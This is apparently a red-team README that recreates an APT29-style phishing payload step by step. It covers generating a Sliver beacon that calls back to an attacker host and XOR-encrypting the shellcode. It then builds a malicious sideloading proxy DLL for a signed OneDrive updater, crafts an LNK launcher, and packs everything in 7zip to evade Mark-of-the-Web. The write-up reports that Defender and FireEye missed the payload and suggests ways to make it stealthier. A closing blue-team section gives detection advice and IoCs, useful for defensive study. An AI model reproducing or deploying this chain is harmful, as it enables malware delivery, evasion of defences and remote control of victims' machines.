# Initial access by using DLL sideloading and abusing signed binaries

This post showcases an attempt to emulate the payload demonstrated in PaloAltoNetworks Unit42's [blog post.](https://unit42.paloaltonetworks.com/brute-ratel-c4-tool/) According to PaloAlto, this sample was packaged in a manner consistent with known APT29 techniques and their recent campaigns. The payload encompasses an ISO file containing on-disk shellcode, DLL sideloading payloads, and an LNK file to initiate the DLL sideloading process. Certain modifications have been made to certain steps, notably the packaging method for the ISO payload, which has been addressed by Microsoft's patches.

## The original payload

Based on the Unit42 blog post, the attackers used an ISO payload with DLL sideloading, a LNK file and on-disk shellcode. The below diagram shows the attack flow:  
  
Image from PaloAlto Unit42 blog post.  

The initial payload starts as an ISO file. This was done most likely to bypass Mark-of-the-Web security feature. The following elements are inside the ISO file after it's mounted:  

| **TYPE**  | **NAME**                     | **DESCRIPTION**                                                                   |
|-----------|------------------------------|-----------------------------------------------------------------------------------|
|    ISO    |         Roshan_CV.iso        |                  ISO file that gets mounted and extracts payloads                 |
|    LNK    | Roshan-Bandara-CV-Dialog.lnk |       Windows shortcut file which starts OneDriveUpdater.exe through cmd.exe      |
|    EXE    |     OneDriverUpdater.exe     | A legitimate digitally signed Microsoft PE binary that is used to update OneDrive |
|    DLL    |          version.dll         |                         Malicious proxy DLL that gets DLL sideloaded              |
|    DLL    |          vresion.dll         |            Legitimate version.dll that is digitally signed by Microsoft           |
| Shellcode |        OneDrive.Update       |                    Shellcode that gets executed by version.dll                    |  

The payload gets executed through the following steps:  

1. The ISO file extracts all the payloads listed in the table above.  
2. Victim user clicks the LNK file. The LNK file starts cmd.exe which then starts the OneDriveUpdater.exe.  
3. OneDriveUpdater.exe sideloads the attacker's version.dll.  
4. version.dll reads the shellcode (OneDrive.Update) from disk, decrypts it using XOR, and injects the shellcode into theRuntimeBroker.exe process.  
5. Any legitimate function calls to the version.dll gets proxied to the legitimate version.dll library -vresion.dll  

Based on the details above, let's recreate the payloads.  

## Emulating the payload with no money and no skills  
### 1 - Shellcode 

The attackers used shellcode from Brute Ratel's C4 agent. This can be substituted with anything such as CobaltStrike or Meterpreter. In this case a Sliver beacon is generated:  
```
sliver > generate beacon --mtls <IP> -f shellcode --save /tmp/OneDrive.update
```

The shellcode has to be XOR encrypted. The attackers used a 28-byte key ```jikoewarfkmzsdlhfnuiwaejrpaw``` to encrypt the shellcode. In this repository there's a simple XOR encryption tool ```XOR-tool.py``` written in Python3 that can do that. Change the parameters and and run the tool inside the directory the shellcode resides.  

### 2 - OneDriveStandaloneUpdater and finding a sideloadable DLL  

You can obtain OneDriveStandaloneUpdater binary if you have the OneDrive installed on a machine at ```C:\Users\<user>\AppData\Local\Microsoft\OneDrive```. Alternatively, you can download it through malshare by the IoC hashes that was listed in the Unit42's blog post. After you've got the binary, place it in a your working directory.

The attackers used ```version.dll``` for their sideloading target. If you wish to use it, find it in ```c:\windows\system32``` and copy it in the same working directory. Alternatively, you can find your own sideloading target with a tool like [Spartacus](https://github.com/Accenture/Spartacus) or by running the binary with Procmon running in the background with the following filters:  

  

The results show potential DLL sideloading targets:  

  

In this case, this post will show how to sideload ```dpapi.dll```, which the OneDriveStandaloneUpdater binary tries to load. Copy the DLL into your working directory.  

### 3 - DLL Sideloading  

To create the malicious proxy DLL, you can use tool such as [SharpDllProxy](https://github.com/Flangvik/SharpDllProxy). To use it, clone the repository and compile it. Copy over the shellcode file and the dpapi.dll file in the directory where SharpDLLProxy is. Then, run it.  

```
cp c:\windows\system32\dpapi.dll .
.\SharpDllProxy.exe --dll .\dpapi.dll --payload .\OneDrive.Update
```  

  

SharpDLLProxy will create a DLL and a .c file. The DLL is just a renamed dpapi.dll- rename the file to dapi.dll. Renaming the DLL is not necessary, this just mimics the filenames from the blog post.  

The .c file serves as the source code that will be compiled to generate the malicious DLL file. It is necessary to make alterations to this source code in order to align with the tactics, techniques, and procedures (TTPs) employed by the attackers.  

### 4 - Modifying the proxy DLL

The dpapi_pragma.c file is the file that needs to be compiled into the malicious proxy DLL - dpapi.dll. Open up Visual Studio (or any IDE) and create a Dynamic-Link Library (DLL) C++ project.  

  

The source code needs modifications to mimic the TTPs of the attackers. In the blog post, the attackers perform remote process injection using ```NtMapViewOfSection``` Windows API to map a memory section for the decrypted payload which gets reflected into ```Runtimebroker.exe``` memory space.  

In this post, we will execute the shellcode inline within the ```OneDriveStandaloneUpdater.exe``` without the need for remote process injection. The source code for the dpapi.dll is in this repository.  

If using Visual Studio, make sure the Project Charset is correctly set. Right click the project -> Properties -> Advanced -> Character Set -> Set to ```Use Multi-byte Character Set``` for the correct Configuration & Platform.  

  

### 5 - LNK file

The LNK file is used to execute ```OneDriveStandaloneUpdater.exe``` with ```cmd.exe```. On Windows this can be done easily by right clicking inside our working directory and clicking New -> Shortcut. Right click the shortcut and click Properties.  

Edit the target section to run ```cmd.exe``` to execute ```OneDriveStandaloneUpdater.exe``` binary with the line:  
```%windir%/system32/cmd.exe /c OneDriveStandaloneUpdater.exe```  

Change the name and the icon of the LNK file as you see fit.



### 6 - 7zip packing

In the original payload, the attackers used ISO format to pack their payload. This was most likely done to bypass Mark-of-the-Web (MotW) security feature. Microsoft has patched the ISO packing method in their [November 2022 Patch security updates](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2022-41091). In this post, we will change the packing method to use 7zip to bypass MotW security feature.  

[7zip](https://7-zip.org/) is a popular open-source file archiving tool. 7zip has updated their tool to include MotW identifiers in the archived files since [22.00](https://www.7-zip.org/history.txt) update, however, this feature is disabled by default.

Have all your files in the working directory:  
- OneDrive.Update - XOR encrypted shellcode  
- dpapi.dll - Malicious proxy DLL
- dapi.dll - Actual dpapi.dll that was renamed
- OneDriveStandaloneUpdater.exe - Legitimate OneDrive updater binary
- Roshan-Bandera-CV-Dialog.lnk - LNK file

When you have all of your files in your working directory, pack your directory using 7zip. Remember to hide everything except the LNK file. You may consider password protecting the archive.

  

### Wrap up  

Now that everything is set, we have the following payload wrapped up in a 7zip archive:  

| **TYPE**  | **NAME**                     | **DESCRIPTION**                                                                   |
|-----------|------------------------------|-----------------------------------------------------------------------------------|
|    7zip   |         Roshan_CV.7zip       |                  7zip file that extracts the payloads                             |
|    LNK    | Roshan-Bandera-CV-Dialog.lnk | Windows shortcut file which starts OneDriveStandaloneUpdater.exe through cmd.exe  |
|    EXE    |OneDriverStandaloneUpdater.exe| A legitimate digitally signed Microsoft PE binary that is used to update OneDrive |
|    DLL    |          dpapi.dll           |                Malicious proxy DLL that gets DLL sideloaded                       |
|    DLL    |          dapi.dll            |            Legitimate dpapi.dll that is created by Microsoft                      |
| Shellcode |        OneDrive.Update       |                 Encrypted shellcode that gets executed by dpapi.dll               |  

The payload gets executed through the following steps:  

1. The 7zip file extracts all the payloads listed in the table above.  
2. Victim user clicks the LNK file. The LNK file starts cmd.exe which then starts the OneDriveStandaloneUpdater.exe.  
3. OneDriveUpdater.exe sideloads the attacker's dpapi.dll.  
4. dpapi.dll reads the shellcode (OneDrive.Update) from disk, decrypts it using XOR, and injects the shellcode into the OneDriveStandaloneUpdater process.  
5. Any legitimate function calls to the dpapi.dll gets proxied to the legitimate dpapi.dll library -dapi.dll  

The execution flow of this attack can be seen below.  

  

## Result

Send your 7zip payload to the target. The victim should right click the archived folder and click 7zip -> Extract to "XYZ" and run the payload.

  

As seen above, our payload gets executed successfully and we get a callback from the Sliver beacon.

The payload was not detected by up-to-date Microsoft Defender as of 14.06.2023  
FireEye Endpoint Security Version v33.46.6 did not detect the payload.


### Possible improvements

The Sliver beacon that was used is huge (~10MB!!) consider using either a stager or another implant that is smaller in size.  

The process injection technique that was used is well documented. Consider using some other technique, perform direct system calls, anti-sandboxing etc. if you wish to be more stealthy. Go crazy :D

# Blue team perspective

This attack heavily relies on the DLL side-loading technique. Detection can be difficult as the attack leverages trusted, standard Windows applications to execute the malicious DLL which helps the malicious activity to blend in with non-malicious data.  

Detectiction of this type of payload can still be done. Monitor DLL/PE file events, specifically creation of these binary files as well as the loading of DLLs into processes. Look for DLLs that are not recognized or not normally loaded into a process. Monitor for newly constructed files in common folders on the computer system.

As the payload first gets executed by a .LNK file that launches ```cmd.exe```, which in turn starts ```OneDriveStandaloneUpdater.exe```, this relationship can be seen in the process tree:

  

The malicious DLL will decrypt and inject the shellcode into ```OneDriveStandaloneUpdater.exe``` process memory space with ```VirtualAllocEx``` Windows API using Read, Write and Execute permissions as can be seen in the source code:  

  

So the unencrypted shellcode can be found in the process memory region with RWX permissions:  



This sort of behaviour is quite anomalous and ought to be investigated.

### On-disk Forensics

As the shellcode resides on-disk in encrypted form, there's an opportunity for *relatively* easy reversing if the responder can find the XOR encryption key and decrypt the on-disk shellcode. Right now the encryption key is unobfuscated and quite easy to find if you know what you're looking for.  

  

  

After acquiring the encryption key the responder can XOR decrypt the ```OneDrive.Update``` payload file.

### Network analysis

The payload will leave network level indicators depending on the payload used. In the case of Sliver, there are many good writeups that discuss this in depth. Recommended reading on this subject can be found from [Immersive Labs' threat hunting guide to Sliver C2](https://www.immersivelabs.com/blog/detecting-and-decrypting-sliver-c2-a-threat-hunters-guide/)

### Indicators of Compromise

Malicious dpapi.dll:  
MD5	200a1d2b05dc6663c799ff48d3469197  

Roshan-Bandera-CV-Dialog.LNK:  
MD5 5a6be4d2519515241d0c133a26cf62c0

### MITRE ATT&CK MATRIX

**TA0001 - Initial access**  
- T1566 - Phishing  

**TA0002 - Execution**  
- T1204 - User Execution
    - T1204.002 - Malicious File  

**TA0005 - Defence Evasion**  
- T1564 - Hide Artifacts
    - T1564.001 - Hidden Files and Directories
- T1574 - Hijack Execution Flow
    - T1574.002 - DLL Side-Loading
- T1027 - Obfuscated files or information
    - T1027.002 - Software Packing
- T1553 - Subvert Trust Controls
    - T1553.005 - Mark-of-the-Web Bypass
- T1218 - System Binary Proxy Execution
- T1036 - Masquerading

**TA0011 - Command and Control**
- T1573 - Encrypted Channel

## Sources  

Harbison Mike & Renals Peter. 2022. When Pentest Tools Go Brutal: Red-Teaming Tool Being Abused by Malicious Actors. Unit42 PaloAltoNetworks blog.  https://unit42.paloaltonetworks.com/brute-ratel-c4-tool/  

Immersive Labs. 2023. Detecting and decrypting Sliver C2 – a threat hunter’s guide. Immersive Labs blog. https://www.immersivelabs.com/blog/detecting-and-decrypting-sliver-c2-a-threat-hunters-guide/
